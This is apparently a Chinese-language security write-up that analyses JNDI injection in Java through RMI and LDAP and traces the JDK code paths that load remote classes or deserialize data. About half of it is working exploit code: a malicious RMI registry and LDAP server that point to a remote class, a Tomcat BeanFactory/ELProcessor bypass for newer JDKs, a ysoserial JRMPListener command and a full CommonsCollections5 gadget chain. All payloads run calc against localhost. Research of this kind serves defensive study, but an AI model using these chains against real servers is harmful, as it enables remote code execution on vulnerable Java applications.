0x01 RMI
client
package rmi;
import javax.naming.InitialContext;
import javax.naming.NamingException;
public class client {
public static void main(String[] args) {
try {
Object ret = new InitialContext().lookup("rmi://127.0.0.1:1099/Jie");
System.out.println("ret: " + ret);
} catch (
NamingException e) {
e.printStackTrace();
}
}
}
Server
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class Server {
public static void main(String args[]) {
try {
Registry registry = LocateRegistry.createRegistry(1099);
String factoryUrl = "http://localhost:1098/";
Reference reference = new Reference("evilexp","evilexp", factoryUrl);
ReferenceWrapper wrapper = new ReferenceWrapper(reference);
registry.bind("Jie", wrapper);
System.err.println("Server ready, factoryUrl:" + factoryUrl);
} catch (Exception e) {
System.err.println("Server exception: " + e.toString());
e.printStackTrace();
}
}
}
evilexp
public class evilexp {
public evilexp() throws Exception{
Runtime.getRuntime().exec("calc");
}
static {
System.out.println("Static block executed.");
}
}
- 在evilexp.class目录下起一个服务
python3 -m http.server 1098
- 启动Server
- 启动client调用触发

0x02 分析
低版本jdk
lookup开始

getURLOrDefaultInitCtx()根据rmi协议获取到rmiURLContext对象

一路到最后一个lookup

lookup一路到decodeObject()

跟进NamingManager.getObjectInstance()

getObjectFactoryFromReference()中会获取我们的厂库类
会先本地查找加载设置的factoryName类，找不到会远程codebase的地址去加载我们的恶意类

用App这个加载器进行加载

远程加载，FactoryURLClassLoader是URLClassLoader的子类

上面Class.forName第二个参数是true，这里加载的时候就能触发static区域的代码
得到class后进行实例化，这里触发自构方法的代码（这里会转化成ObjectFactory类，想不报错，恶意可以继承这个接口）

返回后还会调用getObjectInstance()次方法

小结
得下面这3个代码块都能执行我们的恶意代码
static区域
自构方法
getObjectInstance()
高版本jdk
在调用NamingManager.getObjectInstance()前增加了一个检测

if (var8 != null && var8.getFactoryClassLocation() != null && !trustURLCodebase) {
var8是我们的Reference，var8.getFactoryClassLocation()就是我们设置的远程地址codebase，trustURLCodebase默认是false
这里意思就是默认不让我们设置远程地址了，从而防御我们远程加载恶意类
try1 本地Factory类
利用本地Factory类 getObjectInstance()
那我们把classFactoryLocation设置成null，这里Evil本地得有。然后进行调试
Reference reference = new Reference("Evil","Evil", null);
没有触发报错，来到getObjectFactoryFromReference，发现其代码逻辑并没有什么变化，还是先本地，然后远程，但是因为前面if检测的问题，这里codebase只能是null，除非修改trustURLCodebase（谁没事改这玩意！——！）

然后的话，想高版本利用rmi，就只能利用客户端本地的类，上面3个利用点还是适用的，但是想想其实static和自构方法不太可能存在利用的地方，所以其实还是去找getObjectInstance()，这里找的话其实就有思路了getObjectInstance()是ObjectFactory接口的方法。所以我们去找ObjectFactory的继承类就行。
上面这种方式自然也依赖于其他组件依赖，添加下面tomcat依赖
<dependency>
<groupId>org.apache.tomcat</groupId>
<artifactId>tomcat-catalina</artifactId>
<version>8.5.0</version>
</dependency>
<dependency>
<groupId>org.apache.tomcat.embed</groupId>
<artifactId>tomcat-embed-el</artifactId>
<version>8.5.0</version>
</dependency>
package rmi;
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.util.Properties;
public class RMIServer {
public static void main(String[] args) throws Exception{
Properties env = new Properties();
env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL, "rmi://127.0.0.1:1099");
InitialContext ctx = new InitialContext(env);
LocateRegistry.createRegistry(1099);
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
ref.add(new StringRefAddr("forceString", "xx=eval"));
ref.add(new StringRefAddr("xx", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));
ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
ctx.bind("Jie", referenceWrapper);
}
}
成功执行

BeanFactory利用
会去获取forceString的值，先会通过,分割成多对method，然后通过=分割每对值，前面的为最后放入map的key，后面为要获取的method名字，然后从beanclass获取这个方法（注意这里只会获取String为参数的方法，我们看到paramTypes是不可控的），然后put到forced这个Hashmap中
beanClass是通过beanClassName和App加载器得到的class

然后到下面这个while中，这里获取Type，当不为if中的值时，会从前面设置的forced中通过这个Type名字获取对应的method，然后通过反射调用这个方法，这也就是为什么这两个地方值（xx）要对应

bean对象就是beanClass实例化，然后这个地方执行成功javax.el.ELProcessor#eval
Object bean = beanClass.newInstance();
利用小结
BeanFactory#getObjectInstance利用条件
- JDK或者常用库的类
- 有public修饰的无参构造方法 //显而易见，直接通过newInstance()获得对象的
- public修饰的只有一个String.class类型参数的方法，且该方法可以造成漏洞 //只能调用String方法
上面就利用的el表达式
try2 反序列化
利用register返回恶意序列化数据 反序列化 执行gadget
其实分析过RMI反序列化不难想到。lookup中client会和register进行数据传输且存在反序列化
C:\MyFiles\Tools\ENV\JAVA\jdk1.8.0_192\bin\java.exe -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections5 "calc"
然后运行client
直接到最后那个lookup中，这里会向register传序列化数据做准备，然后跟进这个invoke

到executeCall(),这里this.getInputStream();会接收register传回的序列化数据（这里我们构造恶意序列化数据即可利用），然后下方进行反序列化。

也就是说rmi协议在高版本下，可以打gadget
0x03 LDAP
在jdk8u191之前都能用ldap加载远程恶意类
ldap服务端需要以下依赖
<dependency>
<groupId>com.unboundid</groupId>
<artifactId>unboundid-ldapsdk</artifactId>
<version>6.0.7</version>
</dependency>
LDAPServer.java
package ldap;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import com.unboundid.util.Base64;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import java.text.ParseException;
public class LDAPServer{
private static final String LDAP_BASE = "dc=ldap";
public static void main (String[] args) {
String url = "http://127.0.0.1:4444/#evilexp";
int port = 1389;
try {
InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
config.setListenerConfigs(new InMemoryListenerConfig(
"listen",
InetAddress.getByName("0.0.0.0"),
port,
ServerSocketFactory.getDefault(),
SocketFactory.getDefault(),
(SSLSocketFactory) SSLSocketFactory.getDefault()));
config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
System.out.println("Listening on 0.0.0.0:" + port);
ds.startListening();
}
catch ( Exception e ) {
e.printStackTrace();
}
}
private static class OperationInterceptor extends InMemoryOperationInterceptor {
private URL codebase;
public OperationInterceptor ( URL cb ) {
this.codebase = cb;
}
/**
* {@inheritDoc}
*
* @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
*/
@Override
public void processSearchResult (InMemoryInterceptedSearchResult result ) {
String base = result.getRequest().getBaseDN();
Entry e = new Entry(base);
try {
sendResult(result, base, e);
}
catch ( Exception e1 ) {
e1.printStackTrace();
}
}
protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
e.addAttribute("javaClassName", "Exploit");
String cbstring = this.codebase.toString();
int refPos = cbstring.indexOf('#');
if ( refPos > 0 ) {
cbstring = cbstring.substring(0, refPos);
}
// Payload1: 利用 LDAP + Reference Factory
e.addAttribute("javaCodeBase", cbstring);
e.addAttribute("objectClass", "javaNamingReference");
e.addAttribute("javaFactory", this.codebase.getRef());
// Payload2: 返回序列化 Gadget
// try {
// e.addAttribute("javaSerializedData", Base64.decode("..."));
// } catch (ParseException exception) {
// exception.printStackTrace();
// }
result.sendSearchEntry(e);
result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
}
}
}
JNDIDemo.java
package ldap;
import javax.naming.InitialContext;
public class JNDIDemo {
public static void main(String[] args) throws Exception {
InitialContext ctx = new InitialContext();
ctx.lookup("ldap://127.0.0.1:1389/test");
}
}
0x04 分析
低版本jdk < 8u191
在获取上下文时，根据协议会获取不同的上下文，

跟进ResourceManager.getFactory()

classSuffix这个值是跟进协议名字拼接的，然后去实例化这个类，后面会return factory;

然后会到ldapURLContextFactory.getObjectInstance，返回一个ldap的上下文(ldapURLContext)

然后后续this.getRootURLContext这里调用的是ldapURLContext.getRootURLContext，var3是LdapCtx，也就导致后面和rmi的走向不一样了

c_lookup
然后一直到c_lookup这里，this.doSearchOnce会向ldap发送请求获取值。

然后ldap服务端，将这个值传给client端

然后从返回的值获取attributes属性，我们是设置了javaClassName的，所以进入

这里if都不会进，到最后一个三元表达式

return var1 == null || !var1.contains(JAVA_OBJECT_CLASSES[2]) && !var1.contains(JAVA_OBJECT_CLASSES_LOWER[2]) ? null : decodeReference(var0, var2);
会进入decodeReference()，然后初始化一个Reference对象并return

然后回到c_lookup，进入getObjectInstance()，其后续逻辑和rmi是一样的

然后getObjectFactoryFromReference中触发利用

小结
经过上面的分析，我们知道ldap和rmi在调用远程恶意类上的过程是有区别的
ldap调用栈
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
main:8, JNDIDemo (ldap)
rmi调用栈
decodeObject:475, RegistryContext (com.sun.jndi.rmi.registry)
lookup:138, RegistryContext (com.sun.jndi.rmi.registry)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:417, InitialContext (javax.naming)
main:9, client (rmi)
var8.getFactoryClassLocation()的检测是在rmi的decodeObject中，而ldap协议是调用的其他lookup并不会调用decodeObject来实现远程加载，两者协议调用机制是不一样的所以在
8u113~8u190这段com.sun.jndi.rmi.object.trustURLCodebase默认值为false，ldap不受影响依然可以调用远程恶意类
高版本jdk
8u191以后，在远程加载类时加入了trustURLCodebase的判断，彻底杜绝了远程加载恶意类了。


try1 反序列化
还有一个点decodeObject()的 deserializeObject()符合条件会把ldap服务端返回的数据进行反序列化，有能利用的依赖就能打gadget哇！

给javaSerializedData设置值，进入deserializeObject()

我这里调试有点问题，不能正常调试到readObject，可能是 不是完整源码的原因，不过是成功反序列化了的
这里var0数据就是CC5的序列化数据


demo代码
JNDIDemo还是一样的
LDAPServer
package ldap;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import com.unboundid.util.Base64;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import java.text.ParseException;
public class LDAPServer{
private static final String LDAP_BASE = "dc=ldap";
public static void main (String[] args) {
String url = "http://127.0.0.1:4444/#evilexp";
int port = 1389;
try {
InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
config.setListenerConfigs(new InMemoryListenerConfig(
"listen",
InetAddress.getByName("0.0.0.0"),
port,
ServerSocketFactory.getDefault(),
SocketFactory.getDefault(),
(SSLSocketFactory) SSLSocketFactory.getDefault()));
config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
System.out.println("Listening on 0.0.0.0:" + port);
ds.startListening();
}
catch ( Exception e ) {
e.printStackTrace();
}
}
private static class OperationInterceptor extends InMemoryOperationInterceptor {
private URL codebase;
public OperationInterceptor ( URL cb ) {
this.codebase = cb;
}
/**
* {@inheritDoc}
*
* @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
*/
@Override
public void processSearchResult (InMemoryInterceptedSearchResult result ) {
String base = result.getRequest().getBaseDN();
Entry e = new Entry(base);
try {
sendResult(result, base, e);
}
catch ( Exception e1 ) {
e1.printStackTrace();
}
}
protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
e.addAttribute("javaClassName", "Exploit");
String cbstring = this.codebase.toString();
int refPos = cbstring.indexOf('#');
if ( refPos > 0 ) {
cbstring = cbstring.substring(0, refPos);
}
// Payload1: 利用 LDAP + Reference Factory
// e.addAttribute("javaCodeBase", cbstring);
// e.addAttribute("objectClass", "javaNamingReference");
// e.addAttribute("javaFactory", this.codebase.getRef());
// Payload2: 返回序列化 Gadget
try {
e.addAttribute("javaSerializedData", CC5.getpayload());
} catch (Exception exception) {
exception.printStackTrace();
}
result.sendSearchEntry(e);
result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
}
}
}
CC5
package ldap;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
public class CC5 {
public static void main(String[] args) throws Exception {
byte[] o1 = getpayload();
}
static byte[] getpayload() throws Exception {
InvokerTransformer invokerTransformer2 = new InvokerTransformer("exec",new Class[]{String.class}, new Object[]{"calc"});
InvokerTransformer invokerTransformer1 = new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null});
InvokerTransformer invokerTransformer = new InvokerTransformer("getMethod",new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",null});
ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.class);
Transformer[] transformers=new Transformer[]{constantTransformer,invokerTransformer,invokerTransformer1,invokerTransformer2};
Transformer keyTransformer = new ChainedTransformer(transformers);
LazyMap fistrmap = (LazyMap) LazyMap.decorate(new HashMap(),keyTransformer);
fistrmap.put("fistrmap",1111);
TiedMapEntry tiedMapEntry = new TiedMapEntry(fistrmap,"nono");
Class<?> aClass = Class.forName("javax.management.BadAttributeValueExpException");
Constructor<?> o = aClass.getDeclaredConstructor(Object.class);
o.setAccessible(true);
Object o1 = o.newInstance(11);
Field val = aClass.getDeclaredField("val");
val.setAccessible(true);
val.set(o1, tiedMapEntry);
ByteArrayOutputStream bos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(bos);
oos.writeObject(o1);
oos.flush();
byte[] serializedData = bos.toByteArray();
return serializedData;
}
}
反序列化点2
除了第一个if处可以反序列化，还有一个点可以



e.addAttribute("javaClassName", "foo");
e.addAttribute("javaReferenceAddress","$1$String$$"+new BASE64Encoder().encode(serializeObject(getPayload())));
e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
result.sendSearchEntry(e);
result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
参考：